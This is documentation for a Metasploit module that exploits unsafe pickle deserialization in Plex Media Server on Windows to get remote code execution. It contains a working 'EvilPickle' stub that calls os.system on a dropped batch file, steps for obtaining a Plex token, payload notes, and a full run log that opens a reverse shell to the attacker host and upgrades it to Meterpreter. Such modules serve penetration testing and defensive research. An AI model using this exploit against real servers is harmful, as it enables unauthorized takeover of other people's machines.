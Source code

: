 ## Vulnerable Application

This module exploits an authenticated Python unsafe `pickle.load` of a
`Dict` file. An authenticated attacker can create a photo library and
add arbitrary files to it. After setting the Windows only Plex
variable `LocalAppDataPath` to the newly created photo library, a file
named `Dict` will be unpickled, which causes an RCE as the user who
started Plex. Due to the restrictions of pickle RCE, we write our
payload to a file then simply execute it through the pickled `Dict`
file.

If an exploit fails, or is cancelled, `Dict` and `Dict.bat` are
left on disk, a new `ALBUM_NAME` will be required as subsuquent writes
will make `Dict-1` and `Dict-1.bat`, and not execute.

### Pickle Stub

This exploit requires a python pickle file which can be generated with the following
code:

```
import pickle
import os

class EvilPickle(object):
  def __init__(self):
    pass
  def __reduce__(self):
     return (os.system,('c:\\Users\\Public\\mememe\\Dict.bat',))

e = EvilPickle()
pickle.dumps(e)
"cposix\nsystem\np0\n(S'c:\\\\Users\\\\Public\\\\mememe\\\\Dict.bat'\np1\ntp2\nRp3\n."
```

However, this was run on Linux and thus `posix` can be seen in the output.  When run
on Windows, the output will be slightly different and use `nt` isntead of `posix`.
The Windows version of the code is required.

### Pickle Gotchas

All the examples of Evil Pickle attacks seem to call one command/function.
[1](https://github.com/fhightower/evil-pickle/blob/master/evil_pickle_writer.py#L17),
[2](https://medium.com/@abhishek.dev.kumar.94/sour-pickle-insecure-deserialization-with-python-pickle-module-efa812c0d565),
[3](https://blog.nelhage.com/2011/03/exploiting-pickle/),
[4](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

Either due to the pickling, or the HTTP server interaction, or running on Windows, all attempts to either call multi-function such as:
```eval(base64.b64decode())```
or execute OS commands with more than one parameter
```os.system('net user...')```
or
```os.system('powershell.exe ...')```
failed.  With this in mind, the strategy of uploading a payload file, and calling it was the one that worked.


## Verification Steps

  1. Install the application
  2. Register/Connect it to your Plex Premium account
  3. Start msfconsole
  4. Do: ```use windows/http/plex_unpickle_dict_rce```
  5. Do: ```run```
  6. You should get a shell.

## Options

### ALBUM_NAME

Name of the photo album to create.  Default is random 6 character.

### LIBRARY_PATH

The path to write the photo library to.  Must be valid.  Default is `C:\\Users\\Public`

### PLEX_TOKEN

The `X-Plex-Token` value from requests from an authenticated session.  To obtain this, simply use a browser
to log-in to the server, then check the requests for this header.

### REBOOT_SLEEP

Amount of seconds to sleep waiting on the server to reboot.  In testing `5` seemed to be OK, default is `10`.

### PAYLOAD

Payload is extremly picky, from testing only `cmd/windows/reverse_powershell` worked, however it was very reliable.

## Scenarios

### Plex 10.0.16299 on Windows 10 16299

  ```
  [*] Processing plex.rb for ERB directives.
  resource (plex.rb)> use exploit/windows/http/plex_unpickle_dict_rce
  resource (plex.rb)> set rhosts 1.1.1.1
  rhosts => 1.1.1.1
  resource (plex.rb)> set lhost 2.2.2.2
  lhost => 2.2.2.2
  resource (plex.rb)> set PLEX_TOKEN jy4g8mz2cmHbAaPBsEG7
  PLEX_TOKEN => jy4g8mz2cmHbAaPBsEG7
  resource (plex.rb)> set verbose true
  verbose => true
  resource (plex.rb)> exploit
  [*] Started reverse TCP handler on 2.2.2.2:4444 
  [*] Gathering Plex Config
  [*] Server Name: EXPLOITABLE -win10
  [+] Server OS: Windows (10.0 (Build 16299))
  [+] Server Version: 1.18.5.2309-f5213a238
  [*] Adding new photo library
  [+] Created Photo Library: 94
  [*] Adding pickled Dict to library
  [*] Adding payload to library root
  [*] Changing AppPath
  [*] Restarting Plex
  [*] Sleeping 10 seconds for server restart
  [*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:57277) at 2020-06-19 23:32:00 -0400
  [*] Cleanup Phase: Reverting changes from exploitation
  [*] Changing AppPath
  [*] Restarting Plex
  [!] Tried to delete C:\Users\Public\ULTTqY\Plex Media Server\Plug-in Support\Data\com.plexapp.system\Dict, unknown result
  [*] Deleting Photo Library
  [!] Tried to delete C:\Users\Public\ULTTqY\Dict.bat, unknown result
  
  Could Not Find C:\Windows\.exe
  
  C:\Windows>background
  
  Background session 1? [y/N]  y 
  ```

  ```
  msf5 exploit(windows/http/plex_unpickle_dict_rce) > sessions -u 1
  [*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]
  
  [*] Upgrading session ID: 1
  [*] Starting exploit/multi/handler
  [*] Started reverse TCP handler on 2.2.2.2:4433 
  msf5 exploit(windows/http/plex_unpickle_dict_rce) > 
  [*] Sending stage (176195 bytes) to 1.1.1.1
  [*] Meterpreter session 2 opened (2.2.2.2:4433 -> 1.1.1.1:57293) at 2020-06-19 23:33:43 -0400
  [*] Stopping exploit/multi/handler
  
  msf5 exploit(windows/http/plex_unpickle_dict_rce) > sessions -i 2
  [*] Starting interaction with 2...
  
  meterpreter > getuid
  Server username: WIN10PROLICENSE\windows
  meterpreter > sysinfo
  Computer        : WIN10PROLICENSE
  OS              : Windows 10 (10.0 Build 16299).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```
